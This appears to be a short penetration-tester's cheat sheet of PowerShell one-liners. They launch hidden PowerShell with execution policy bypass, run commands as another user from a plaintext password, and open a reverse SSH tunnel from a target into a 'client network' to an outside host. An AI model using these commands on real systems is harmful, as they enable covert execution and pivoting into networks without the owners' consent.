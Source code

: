 ### Start and creates a new process (detached)
```
Start-Process -wi 1 -FilePath "cmd" -ArgumentList "/c type <powershellScript> | powershell -WindowStyle Hidden -exec bypass"
```

### Start process as another user (-wi 1 to minimize window pop up)
```
$scp = ConvertTo-SecureString '<password>' -AsPlainText -Force; $cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $scp); start-process -wi 1 -FilePath "cmd.exe" -ArgumentList "/c <command>" -Credential $cred
```

### Forward proxychains traffic into client network
```
Start-Process -wi 1 -FilePath "powershell" -ArgumentList " -c ssh -o 'StrictHostKeyChecking=no' -i $HOME\.ssh\<privateKey> -N -R 9050 <user>@<rhost>"
```

### Search for process by name
```
Get-Process | Where-Object { $_.ProcessName -like "*<name>*" } | Select-Object ProcessName, Id
```

### Stop process by name
```
Stop-Process -Name "<name>"
```

